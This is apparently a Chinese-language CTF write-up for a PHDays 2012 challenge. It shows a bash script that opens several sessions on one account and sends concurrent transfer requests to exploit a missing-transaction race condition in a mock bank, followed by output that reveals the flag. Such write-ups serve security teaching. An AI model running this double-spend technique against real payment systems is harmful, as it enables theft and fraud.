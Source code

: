 ```yaml
---
title: PHDay CTF 2012 Quals Real World 200
author: fqj
layout: post
permalink: /phday-ctf-2012-quals-real-world-200/
categories:
  - CTF
  - writeup
---
```

这个是一个银行，你帐号只有1000块，然后要给别人打钱，要打别人2000快。

问题：竞争，系统没有用事务

恼人的地方：需要用多个不同的session去登录同一个帐号，同一个session登录多次转账没有用，因为每一次请求sessionid会变化，那么第二个请求就成了not authorized.

脚本：

    #!/bin/bash -e
    wget "http://ctf.phdays.com:1629/?act=register" --post-data="login=$1&pass1=$1&pass2=$1&email=123%40123.com" -O /dev/null -q
    wget "http://ctf.phdays.com:1629/?act=login" "--post-data=login=$1&password=$1" --save-cookies=cookiejar --keep-session-cookies  --load-cookies=cookiejar -O /dev/null -q
    wget "http://ctf.phdays.com:1629/?act=login" "--post-data=login=$1&password=$1" --save-cookies=cookiejar2 --keep-session-cookies  --load-cookies=cookiejar2 -O /dev/null -q
    wget "http://ctf.phdays.com:1629/?act=login" "--post-data=login=$1&password=$1" --save-cookies=cookiejar3 --keep-session-cookies  --load-cookies=cookiejar3 -O /dev/null -q
    wget "http://ctf.phdays.com:1629/?act=login" "--post-data=login=$1&password=$1" --save-cookies=cookiejar4 --keep-session-cookies  --load-cookies=cookiejar4 -O /dev/null -q
    wget "http://ctf.phdays.com:1629/?act=login" "--post-data=login=$1&password=$1" --save-cookies=cookiejar5 --keep-session-cookies  --load-cookies=cookiejar5 -O /dev/null -q
    wget "http://ctf.phdays.com:1629/?act=login" "--post-data=login=$1&password=$1" --save-cookies=cookiejar6 --keep-session-cookies  --load-cookies=cookiejar6 -O /dev/null -q
    wget "http://ctf.phdays.com:1629/?act=transaction" --post-data="account=40433343a063d26054a3169b42b5957f&amount=1000" --load-cookies=cookiejar --save-cookies=cookiejar --keep-session-cookies -O /dev/null -q &
    wget "http://ctf.phdays.com:1629/?act=transaction" --post-data="account=40433343a063d26054a3169b42b5957f&amount=1000" --load-cookies=cookiejar2 --save-cookies=cookiejar2 --keep-session-cookies -O /dev/null -q &
    wget "http://ctf.phdays.com:1629/?act=transaction" --post-data="account=40433343a063d26054a3169b42b5957f&amount=1000" --load-cookies=cookiejar3 --save-cookies=cookiejar3 --keep-session-cookies -O /dev/null -q &
    wget "http://ctf.phdays.com:1629/?act=transaction" --post-data="account=40433343a063d26054a3169b42b5957f&amount=1000" --load-cookies=cookiejar4 --save-cookies=cookiejar4 --keep-session-cookies -O /dev/null -q &
    wget "http://ctf.phdays.com:1629/?act=transaction" --post-data="account=40433343a063d26054a3169b42b5957f&amount=1000" --load-cookies=cookiejar5 --save-cookies=cookiejar5 --keep-session-cookies -O /dev/null -q &
    wget "http://ctf.phdays.com:1629/?act=transaction" --post-data="account=40433343a063d26054a3169b42b5957f&amount=1000" --load-cookies=cookiejar6 --save-cookies=cookiejar6 --keep-session-cookies -O /dev/null -q &
    while true; do
        if ps aux | grep -v grep | grep wget >/dev/null; then
            sleep 1
        else
            wget "http://ctf.phdays.com:1629/?act=main" --load-cookies=cookiejar2 --save-cookies=cookiejar2 --keep-session-cookies -O - -q | html2text -utf8
            rm cookiejar*
            exit 0
        fi
    done
    

运行结果：

     PHDays_E-Banking  
     * Home_Page  
     * Transactions  
     * Log_out  
     * Current balance: 0 Logged in as luketest6 Your flag: e8b434d21354e1a2ab61f4c672109559  
    
     =============================================================================== © 1.21 GigaWatt, LLC. All Rights Reserved.
    

如果一次没成功，用不同的参数重新运行就好了